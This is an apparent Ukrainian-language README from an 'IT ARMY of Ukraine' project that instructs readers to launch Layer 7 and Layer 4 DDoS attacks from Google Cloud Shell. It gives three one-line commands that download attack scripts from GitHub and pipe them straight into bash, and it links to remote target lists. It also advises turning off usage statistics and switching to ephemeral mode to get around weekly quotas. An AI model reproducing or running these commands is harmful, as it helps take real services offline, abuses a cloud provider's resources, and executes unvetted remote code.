 ## DDoS whith Google Cloud Shell 
### MHDDoS_proxy
# 
Making script for durable cloudshell session
#
# ТЕСТ
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

## Команди для запуску атаки
#### по Layer7:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
по Layer4:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash
```
Подвійна атака (Layer7+Layer4) розділений термінал (tmux):
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal в налаштуваннях вимикаємо статистику використання.
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень)
#
Перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000

#
Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4


#
#
IT ARMY of Ukraine
